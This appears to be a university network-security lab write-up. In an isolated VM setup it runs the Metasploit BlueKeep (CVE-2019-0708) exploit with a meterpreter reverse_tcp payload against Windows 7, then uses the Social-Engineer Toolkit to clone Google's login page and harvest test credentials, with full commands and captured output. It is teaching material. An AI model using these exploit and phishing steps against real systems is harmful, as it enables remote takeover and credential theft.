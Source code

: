 ```yaml
---
title: A&D of Network Security - Lab 13
tags: [NTU, NTU_PADNS]

category: "Security/Course/NTU PADNS"
---
```


# A&D of Network Security - Lab 13
###### tags: `Practicum of A&D of NS` `NTU`

## Metasploit with Bluekeep Vulnerability (CVE-2019-0708)
### Setting up environment
* Open Windows 7 and Kali-Linux with `localhost only` mode
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Skg3sJ93Hh.png)
    
    ![](https://hackmd.io/_uploads/ByyTJqnHh.png)
    :::
* Then we can note that the IP of these two machines are different:
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/H1gOg5hSn.png)
    
    ![](https://hackmd.io/_uploads/H1VSlcnB3.png)
    :::
    Now, we know `Win7`'s IP: `192.168.56.101`
    Kali-Linux's IP: `192.168.56.102`

* Test the connection of these machines
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/HJ3D-5hS2.png)

    ![](https://hackmd.io/_uploads/S1eSW5hB3.png)
    :::
* Always allow the remote desktop connection of `Win7`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Hk0yzchB3.png)
    
    ![](https://hackmd.io/_uploads/HJQxfc3Sh.png)
    :::

### Try to Exploit
* Open Metasploit in Kali-Linux
    ```bash!
    $ use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    $ info # Can check the mode you'd like to use
    $ set rhost 192.168.56.101 # set remote host IP -> victim(Win7)
    $ set lhost 192.168.56.102 # set local host IP -> attacker(Kali-Linux)
    $ set target 2 # For virtual-box mode
    $ set payload windows/x64/meterpreter/reverse_tcp # Set the exploited payload
    $ check # Check if the victim can be exploited or not
    $ exploit # Actually attack
    ```
    :::info
    Sometimes the attack will not always success, you must try until it success.
    :::
    
    :::spoiler Detailed Screenshot
    ![](https://hackmd.io/_uploads/H1PUwq2S3.png)
    ![](https://hackmd.io/_uploads/ByQ6wqnHh.png)
    :::

### Remote Desktop

## Social Engineering in Kali-Linux
1. Set up the network environment same as the lab above
2. Open Social Engineering Toolkit(root) in Kali-Linux
3. Enter Command
    ```bash!
    ...
       1) Spear-Phishing Attack Vectors
       2) Website Attack Vectors
       3) Infectious Media Generator
       4) Create a Payload and Listener
       5) Mass Mailer Attack
       6) Arduino-Based Attack Vector
       7) Wireless Access Point Attack Vector
       8) QRCode Generator Attack Vector
       9) Powershell Attack Vectors
      10) Third Party Modules

      99) Return back to the main menu.

    set> 2
    ...
       1) Java Applet Attack Method
       2) Metasploit Browser Exploit Method
       3) Credential Harvester Attack Method
       4) Tabnabbing Attack Method
       5) Web Jacking Attack Method
       6) Multi-Attack Web Method
       7) HTA Attack Method

      99) Return to Main Menu

    set:webattack>3
    ...
       1) Web Templates
       2) Site Cloner
       3) Custom Import

      99) Return to Webattack Menu

    set:webattack>1
    [-] Credential harvester will allow you to utilize the clone capabilities within SET
    [-] to harvest credentials or parameters from a website as well as place them into a report
    ...
    Enter the IP address for POST back in Harvester/Tabnabbing: 192.168.56.102 # Must using Kali-Linux IP
    ...
    -------------------------------------------------------

      1. Java Required
      2. Google
      3. Twitter

    set:webattack> Select a template:2    # You can also use other templates

    [*] Cloning the website: http://www.google.com                                                                     
    [*] This could take a little bit...                                                                                

    The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
    [*] The Social-Engineer Toolkit Credential Harvester Attack
    [*] Credential Harvester is running on port 80                                                                     
    [*] Information will be displayed to you as it arrives below:

    ```
4. Open Chrome in Win7 and enter Kali IP and enter your account/password
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/SJBgpB1In.png)
    :::
5. Check Kali-Linux Terminal
    ```bash!
    192.168.56.101 - - [27/May/2023 05:25:50] "GET / HTTP/1.1" 200 -
    192.168.56.101 - - [27/May/2023 05:26:48] "GET /favicon.ico HTTP/1.1" 404 -
    [*] WE GOT A HIT! Printing the output:
    PARAM: GALX=SJLCkfgaqoM
    PARAM: continue=https://accounts.google.com/o/oauth2/auth?zt=ChRsWFBwd2JmV1hIcDhtUFdldzBENhIfVWsxSTdNLW9MdThibW1TMFQzVUZFc1BBaURuWmlRSQ%E2%88%99APsBz4gAAAAAUy4_qD7Hbfz38w8kxnaNouLcRiD3YTjX
    PARAM: service=lso
    PARAM: dsh=-7381887106725792428
    PARAM: _utf8=â
    PARAM: bgresponse=js_disabled
    PARAM: pstMsg=1
    PARAM: dnConn=
    PARAM: checkConnection=
    PARAM: checkedDomains=youtube
    POSSIBLE USERNAME FIELD FOUND: Email=test123
    POSSIBLE PASSWORD FIELD FOUND: Passwd=123456
    PARAM: signIn=Sign+in
    PARAM: PersistentCookie=yes
    [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
    ```
6. Done
We try to fetch the victim's account using fake web template...